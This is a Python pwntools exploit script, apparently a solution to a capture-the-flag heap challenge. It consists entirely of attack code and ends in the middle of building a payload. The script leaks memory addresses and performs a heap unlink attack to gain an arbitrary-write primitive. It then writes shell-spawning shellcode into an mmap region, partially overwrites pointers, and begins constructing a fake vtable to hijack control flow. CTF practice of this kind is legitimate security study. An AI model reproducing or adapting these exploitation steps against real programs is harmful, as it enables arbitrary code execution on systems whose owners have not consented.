 ```python
            #ctx.debug(gdbscript='c')
            
            ru('Mmap: ')
            mmap_addr = int(ru('\n'), 16)
            
            prog_base = add(0xf8) - 0x202068
            add(0xf0)
            
            add(0x20)
            
            target = prog_base+0x202068
            payload1 = p64(0) + p64(0xf1)
            payload1 += p64(target-0x18) + p64(target-0x10)
            payload1 = payload1.ljust(0xf0, '\0')
            payload1 += p64(0xf0)
            fill(0, payload1)
            
            #unlink 
            free(1)
            
            def vuln_write(addr, content):
                payload = p64(0) + p64(0)
                payload += p64(0xf8) + p64(prog_base+0x202050)
                payload += p64(0x1000) + p64(addr)
                fill(0, payload + '\n')
                sleep(0.5)
                fill(1, content + '\n')
                
            
            vuln_write(mmap_addr, asm(shellcraft.sh()))
            
            add(0x20)
            
            payload2 = p64(0) + p64(0)
            payload2 += p64(0xf8) + p64(prog_base+0x202050)
            payload2 += p64(0) + p64(0)
            payload2 += p64(0) + p64(0)
            payload2 += p64(8) + '\x48'
            fill(0, payload2 + '\n')
            fill(3, '\x61\x00\n')
            
            
            payload3 = p64(0) + p64(0)
            payload3 += p64(0xf8) + p64(prog_base+0x202050)
            payload3 += p64(0) + p64(0)
            payload3 += p64(0) + p64(0)
            payload3 += p64(8) + '\x58'
            fill(0, payload3 + '\n')
            fill(3, '\x10\x75\n')
            
            
            payload4 = p64(0) + p64(0)
            payload4 += p64(0xf8) + p64(prog_base+0x202050)
            payload4 += p64(0) + p64(0)
            payload4 += p64(0) + p64(0)
            payload4 += p64(0x1000) + '\x60'
            fill(0, payload4 + '\n')


            fake_vtable = prog_base + 0x202070
            payload5 = p64(2) + p64(3)
            payload5 = payload5.ljust(0xb8,'\x00')
            payload5 += p64(fake_vtable)
```